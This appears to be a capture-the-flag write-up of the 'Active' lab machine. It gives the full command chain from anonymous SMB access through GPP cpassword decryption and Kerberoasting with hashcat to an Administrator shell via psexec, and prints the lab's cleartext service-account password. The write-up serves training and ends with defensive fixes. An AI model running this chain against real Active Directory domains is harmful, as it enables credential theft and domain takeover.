








# Enumeration
 </br>
I enumerated the SMB service with smbmap: ```smbmap -H 10.10.10.100 </br>
 </br>
The Replication share has READ ONLY permission, so I tried  to login anonymously to view the files inside. </br>
```smbclient //10.10.10.100/Replication -N``` </br>
 </br>
I recursively downloaded all the files and directories on the share to my Kali with the commands: </br>
```bash
recurse on
prompt off
mget *
```
## Initial Foothold

After looking through all the files on this share, I found ```Groups.xml``` in this directory: </br>
```active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\``` </br>
Looking at the contents of this file, I saw a userName and an cpassword fields: </br>
```bash
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

```Group Policy Preferences (GPP) are a powerful tool that once allowed administrators to create domain policies with embedded credentials. While a useful tool, the storage mechanism for the credentials was flawed and allowed attackers to trivially decrypt the plaintext credentials.``` </br>
Since the key is known, I could decrypt the password using the tool ```gpp-decrypt``` </br>
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

After using smbmap with the found credentials, I could read three more shares: </br>
 </br>
I navigated to the USERS share, on ```SVC_TGS/Desktop``` directory, I have found the user flag. </br>
# Privilege Escalation
After I found the credentials of the SVC_TGS user, I decided to try a technique known as Kerberoasting: </br>
**Kerberoasting** is a post-exploitation attack technique that attempts to crack the password of a service account within the Active Directory. </br>
In such an attack, an adversary masquerading as an account user with a service principal name (SPN) requests a ticket,
which contains an encrypted password, or Kerberos. (An SPN is an attribute that ties a service to a user account within the AD). The adversary
then works offline to crack the password hash, often using brute force techniques.
Once the plaintext credentials of the service account are exposed,
the adversary possesses user credentials that they can use to impersonate the account owner.
In so doing, they appear to be an approved and  legitimate user and have unfettered access to any systems, 
assets or networks granted to the compromised account. </br> </br>
I used an impacket tool called Impacket-GetUserSPNs: </br>
**Impacket’s GetUserSPNs.py** will attempt to fetch Service Principal Names that are associated with normal user accounts.
What is returned is a ticket that is encrypted with the user account’s password, which can then be bruteforced offline. </br>
The command I used: ```GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18``` </br>
Then I got the ticket: </br>
 </br>
Saved the hash, and used hashcat to decrypt it,
To find the hash number I hashcat Example Hashes [website](https://hashcat.net/wiki/doku.php?id=example_hashes). </br>
 and searched for it using the ```$krb5tgs$``` hash name: </br>
  </br>
 I decrypted it using this command: ```hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt``` </br>
  </br>
 To log in into the Administrator User I used psexec, and it worked: </br>
 ```psexec.py Administrator@10.10.10.100``` </br>
**PsExec:** allows for remote command execution (and receipt of resulting output) over a named pipe with
the Server Message Block (SMB) protocol, which runs on TCP port 445. </br> </br>
**Vulnerability Exploited:** Kerberoasting attack. </br>
**Vulnerability Explanation:** </br>
Kerberoasting is a post-exploitation attack technique that attempts to crack the password of a service
account within the Active Directory.
In such an attack, an adversary masquerading as an account user with a service principal name (SPN)
requests a ticket, which contains an encrypted password, or Kerberos. (An SPN is an attribute that ties a
service to a user account within the AD). The adversary then works offline to crack the password hash,
often using brute force techniques.
Once the plaintext credentials of the service account are exposed, the adversary possesses user credentials
that they can use to impersonate the account owner. In so doing, they appear to be an approved and
legitimate user and have unfettered access to any systems, assets or networks granted to the compromised
account. </br>
**Vulnerability Fix:** </br>
While there is no way to stop this ticket behavior, as it is part of the Kerberos architecture, the following
controls can minimize the likelihood of successful attacks:
- Set a strong password policy requiring passwords of at least 25 characters for service accounts.
This severely limits how quickly an attacker could crack a password if a ticket were to be
captured.
- Rotate service account passwords on a set schedule. This limits the amount of time an attacker
has to try and crack a ticket.
- Enable audit logging on the domain controller to log successful Kerberos Ticket-Granting Service
ticket requests, in particular those that are being requested with weak RC4 or DES encryption,
and configure a security information and event monitoring (SIEM) or log management tool to
alert on these events. </br> </br>
**Proof Of Screenshot:** </br>
  </br>


